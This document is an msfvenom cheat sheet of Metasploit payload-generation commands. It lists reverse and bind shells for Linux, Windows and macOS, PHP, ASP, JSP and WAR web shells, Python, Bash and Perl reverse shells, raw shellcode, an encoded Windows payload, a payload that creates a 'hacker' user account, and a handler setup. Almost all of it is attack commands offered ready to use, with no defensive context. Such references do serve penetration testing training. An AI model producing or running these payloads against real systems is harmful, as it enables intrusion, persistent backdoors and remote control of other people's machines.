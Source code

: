 # msfvenom cheatsheet

**List payloads**  
 msfvenom -l

**Binaries Payloads**

**Linux Meterpreter Reverse Shell**  
 msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f elf &gt; shell.elf

**Linux Bind Meterpreter Shell**  
 msfvenom -p linux/x86/meterpreter/bind\_tcp RHOST=&lt;Remote IP Address&gt; LPORT=&lt;Local Port&gt; -f elf &gt; bind.elf

**Linux Bind Shell**  
 msfvenom -p generic/shell\_bind\_tcp RHOST=&lt;Remote IP Address&gt; LPORT=&lt;Local Port&gt; -f elf &gt; term.elf

**Windows Meterpreter Reverse TCP Shell**  
 msfvenom -p windows/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f exe &gt; shell.exe

**Windows Reverse TCP Shell**  
 msfvenom -p windows/shell/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f exe &gt; shell.exe

**Windows Encoded Meterpreter Windows Reverse Shell**  
 msfvenom -p windows/meterpreter/reverse\_tcp -e shikata\_ga\_nai -i 3 -f exe &gt; encoded.exe

**Mac Reverse Shell**  
 msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f macho &gt; shell.macho

**Mac Bind Shell**  
 msfvenom -p osx/x86/shell\_bind\_tcp RHOST=&lt;Remote IP Address&gt; LPORT=&lt;Local Port&gt; -f macho &gt; bind.macho

**Web Payloads**

**PHP Meterpreter Reverse TCP**  
 msfvenom -p php/meterpreter\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.php  
 cat shell.php \| pbcopy && echo ‘&lt;?php ‘ \| tr -d ‘\n’ &gt; shell.php && pbpaste &gt;&gt; shell.php

**ASP Meterpreter Reverse TCP**  
 msfvenom -p windows/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f asp &gt; shell.asp

**JSP Java Meterpreter Reverse TCP**  
 msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.jsp

**WAR**  
 msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f war &gt; shell.war

**Scripting Payloads  
  
 Python Reverse Shell**  
 msfvenom -p cmd/unix/reverse\_python LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.py

**Bash Unix Reverse Shell**  
 msfvenom -p cmd/unix/reverse\_bash LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.sh

**Perl Unix Reverse shell**  
 msfvenom -p cmd/unix/reverse\_perl LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.pl

**Shellcode**

Windows Meterpreter Reverse TCP Shellcode  
 msfvenom -p windows/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f &lt;language&gt;

**Linux Meterpreter Reverse TCP Shellcode**  
 msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f &lt;language&gt;

**Mac Reverse TCP Shellcode**  
 msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f &lt;language&gt;

**Create User**  
 msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe &gt; adduser.exe

**Metasploit Handler**

use exploit/multi/handler  
 set PAYLOAD &lt;Payload name&gt;  
 Set RHOST &lt;Remote IP&gt;  
 set LHOST &lt;Local IP&gt;  
 set LPORT &lt;Local Port&gt;  
 Run

